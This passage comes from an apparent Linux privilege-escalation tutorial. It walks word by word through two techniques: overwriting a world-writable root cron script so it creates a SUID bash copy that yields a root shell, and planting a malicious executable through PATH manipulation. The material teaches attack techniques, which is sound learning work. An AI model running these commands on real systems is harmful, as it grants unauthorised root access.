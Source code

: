 **Word-by-Word Explanation**:
- `cat /etc/crontab`:
  - `cat`: Displays file contents.
  - `/etc/crontab`: System-wide cron configuration.
  - *Purpose*: Shows a cron job running `/tmp/backup.sh` as root every minute (`* * * * *`).
- `ls -l /tmp/backup.sh`:
  - `ls -l`: Lists file details.
  - `/tmp/backup.sh`: The cron job script.
  - *Output*: `-rwxrwxrwx` means everyone can write to it.
  - *Purpose*: Confirms the script is writable.
- `echo '#!/bin/bash' > /tmp/backup.sh`:
  - `echo`: Prints text.
  - `'#!/bin/bash'`: Specifies the script uses Bash.
  - `>`: Overwrites the file.
  - `/tmp/backup.sh`: The target script.
  - *Purpose*: Starts a new script.
- `echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /tmp/backup.sh`:
  - `echo`: Prints text.
  - `cp /bin/bash /tmp/rootbash`: Copies the Bash binary.
  - `;`: Separates commands.
  - `chmod +s /tmp/rootbash`: Sets SUID on the copy.
  - `>>`: Appends to the file.
  - *Purpose*: Adds commands to create a root-privileged Bash binary.
- `chmod +x /tmp/backup.sh`:
  - `chmod`: Changes file permissions.
  - `+x`: Makes the file executable.
  - `/tmp/backup.sh`: The modified script.
  - *Purpose*: Ensures the cron job can run the script.
- `/tmp/rootbash -p`:
  - `/tmp/rootbash`: The SUID Bash binary.
  - `-p`: Preserves privileges (runs as root).
  - *Purpose*: Runs the new binary to get a root shell.
- `whoami`:
  - *Purpose*: Confirms root access.

**Note**: Cron jobs with absolute paths or non-writable scripts are harder to exploit.

---

### 5. PATH Manipulation

**Description**: The `PATH` variable tells Linux where to look for executables. If a root-owned script runs a program without a full path and you can modify `PATH`, you can trick it into running your malicious program.

**Example**:
```bash
# Check PATH
echo $PATH
# Output: /usr/bin:/bin

# Find writable directories
find / -writable -type d 2>/dev/null
# Output: /home/user

# Add writable directory to PATH
export PATH=/home/user:$PATH

# Create malicious program
echo '#!/bin/bash' > /home/user/thm
echo '/bin/bash' >> /home/user/thm
chmod +x /home/user/thm

# Run SUID script that calls 'thm'
/usr/local/bin/test
```